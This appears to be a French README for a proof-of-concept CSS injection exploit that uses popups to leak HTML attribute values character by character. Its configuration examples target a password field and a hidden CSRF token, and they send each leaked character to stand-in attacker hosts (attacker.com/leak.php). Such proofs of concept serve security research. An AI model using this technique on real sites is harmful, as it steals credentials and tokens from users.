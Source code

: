 # PoC - CSS Injection : popups

__Read this in other languages:__ [English](README.md), [Français](README.fr.md)

## Description

PoC d'exploitation d'une injection CSS en utilisant l'ouverture de popups afin de récupérer la valeur d'un attribut d'un élément HTML.

## Prérequis

- Il existe certaines limites lorsque la valeur à récupérer commence par un chiffre. La valeur de sélection doit alors être entourée par de guillemets simples ou doubles et l'exploitation peut ne pas être possible dans le cas ou ces caractères sont filtrés par l'application.
- Etant donné que sur les navigateurs modernes une seule popup peut être ouverte à la fois et seulement suite à une action de l'utilisateur (clic par exemple), l'alpahabet doit être testé en une seule requête pouvant causer une erreur de type `414 URI too long`

## Configuration

Avant d'utiliser le PoC, configurer les valeurs suivantes :

```
/* ==== CONFIG ==== */
// URL complète de l'application vulnérable
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  

// URL de la machine de l'attaquant permettant de connaitre les caractères déjà identifiés
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";

// URL de la machine de l'attaquant permettant d'indiquer un nouveau caractère identifié
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";

// Nom de l'élément HTML ciblé
const HTML_ELEMENT_NAME = "input";

// Nom de l'attribut HTML ciblé
const HTML_ATTRIBUTE_NAME = "name";

// Valeur NAME de l'attribut HTML ciblé
const HTML_ATTRIBUTE_VALUE = "password";

// True si le champs ciblé est de type "hidden" (utilisation des combinateurs CSS ~*)
const isHiddenTypeElement = false;

// Lorsque les caractères "'" et """ sont filtrés par l'application il n'est pas possible de récupérer une valeur commençant par un chiffre
const isQuoteFiltered = true;
```

## Utilisation

### Récupération d'une valeur d'un champ de type password

```javascript
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "password";
const isHiddenTypeElement = false;
const isQuoteFiltered = true;
```

### Récupération d'une valeur d'un champ de type hidden

```javascript
const RURL = "http://vulnerable.com/targets/hidden.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "csrf-token";
const isHiddenTypeElement = true;
const isQuoteFiltered = true;
```

## Démo

### Récupération d'une valeur d'un champ de type password

![](https://github.com/Sharpforce/PoC-CSS-injection/blob/master/attribute-selectors-popup/demo/attribute-selectors-popup-password.gif)

### Récupération d'une valeur d'un champ de type hidden

![](https://github.com/Sharpforce/PoC-CSS-injection/blob/master/attribute-selectors-popup/demo/attribute-selectors-popup-hidden.gif)